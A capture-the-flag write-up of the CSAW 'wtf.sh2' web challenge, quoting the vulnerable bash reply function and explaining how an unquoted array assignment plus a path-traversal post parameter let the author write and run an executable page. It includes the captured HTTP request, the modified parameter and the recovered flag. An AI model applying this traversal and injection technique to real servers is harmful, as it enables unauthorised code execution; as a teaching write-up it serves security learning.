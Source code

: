 # Wtf.sh2 (web)

After alynch solved wtf.sh, we were left with the second challenge. While solving them [jlundstrom](https://github.com/jlundstrom) and Matt found out that if you went to http://web.chal.csaw.io:8001/post.wtf?post=../ you could view source & files in the folder!

After combing through each function I was looking at the reply function. Before I spoil the fun I'll let you look at it:

~~~
function reply {
local post_id=$1;
local username=$2;
local text=$3;
local hashed=$(hash_username "${username}");

curr_id=$(for d in posts/${post_id}/*; do basename $d; done | sort -n | tail -n 1);
next_reply_id=$(awk '{print $1+1}' <<< "${curr_id}");
next_file=(posts/${post_id}/${next_reply_id});
echo "${username}" > "${next_file}";
echo "RE: $(nth_line 2 < "posts/${post_id}/1")" >> "${next_file}";
echo "${text}" >> "${next_file}";

# add post this is in reply to to posts cache
echo "${post_id}/${next_reply_id}" >> "users_lookup/${hashed}/posts";
}
~~~

 Can you see any bugs? The following stood out to me 
 
 ~~~
 next_file=(posts/${post_id}/${next_reply_id});
 ~~~
 
 It doesn't use quotes to wrap around the strings that it adds together, so the vulnerability is that you can make the server ignore the ${next_reply_id} if you shove a space in the request back to the server.
 
 So I went ahead and fired up burpsuite and firefox. First I made an account called $get_flag2, made a new post and captured the reply with burpsuite, which is as follows:
 
 ~~~
 POST /reply.wtf?post=uZyis HTTP/1.1
Host: web.chal.csaw.io:8001
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web.chal.csaw.io:8001/reply.wtf?post=uZyis
Cookie: USERNAME=$get_flag2; TOKEN=Ps77Gu5/mJGyMxv6GVm2LXLJdlrGzrQ8AcHCHzgDA4iDXZq2Xe+D5icGiGne5t83P+UZppjITL/9SEiCJVwgaw==
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

text=fsdsfd&submit=
 ~~~
 
 After changing the  post url to ../pleasework.wtf+ (the + will be a space that causes the next_reply_id to be appended), we could then navigate to http://web.chal.csaw.io:8001/pleasework.wtf, and guess what? It worked!
 
 The flag was: flag{n0b0dy_exp3c75_th3_p4r3nth3s1s_1nqu1s1t10n}
 
 Shoutout to the rest of the knightsec people for finding the directory and code reading stuff!